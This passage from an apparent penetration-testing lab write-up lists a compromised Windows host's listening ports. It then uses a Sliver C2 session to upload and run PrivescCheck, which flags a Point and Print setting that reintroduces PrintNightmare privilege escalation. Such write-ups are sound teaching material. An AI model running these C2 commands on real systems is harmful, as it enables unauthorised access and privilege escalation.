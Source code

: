 ```terminal
  UDP  0.0.0.0:123            *:*                                                                                                            (  652)
  UDP  0.0.0.0:3389           *:*                                                                                                            ( 1020)
  UDP  0.0.0.0:5353           *:*                                                                                                            ( 1064)
  UDP  0.0.0.0:5355           *:*                                                                                                            ( 1064)
  UDP  10.10.144.230:137      *:*                                                                                                            (    4)
  UDP  10.10.144.230:138      *:*                                                                                                            (    4)
  UDP  127.0.0.1:52613        *:*                                                        C:\ProgramData\Puppet\puppet-update.exe             ( 4068)
  UDP  127.0.0.1:62913        *:*                                                                                                            (  676)
```

Nothing particular interesting sticks out. As a next step we look for local privilege escalation vulnerabilities. A good PowerShell script to use for this is [PrivescCheck](https://github.com/itm4n/PrivescCheck) by itm4n. Since we can not reach our attacker machine directly from the target machine, we will have to either upload the script to the target or host in on the c2 machine. In this case I'm going with the upload way:


```terminal
sliver (puppet-mtls) > upload PrivescCheck.ps1
sliver (puppet-mtls) > sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\PrivescCheck.ps1

...
[*] Status: Vulnerable - High


Policy      : Limits print driver installation to Administrators
Key         : HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint
Value       : RestrictDriverInstallationToAdministrators
Data        : 0
Default     : 1
Expected    : <null|1>
Description : Installing printer drivers does not require administrator privileges.

Policy      : Point and Print Restrictions > NoWarningNoElevationOnInstall
Key         : HKLM\SOFTWARE\Policies\Microsoft\Windows NT\Printers\PointAndPrint
Value       : NoWarningNoElevationOnInstall
Data        : 1
Default     : 0
Expected    : <null|0>
Description : Do not show warning or elevation prompt. Note: this setting reintroduces the PrintNightmare LPE
              vulnerability, even if the settings 'InForest' and/or 'TrustedServers' are configured.
...
```
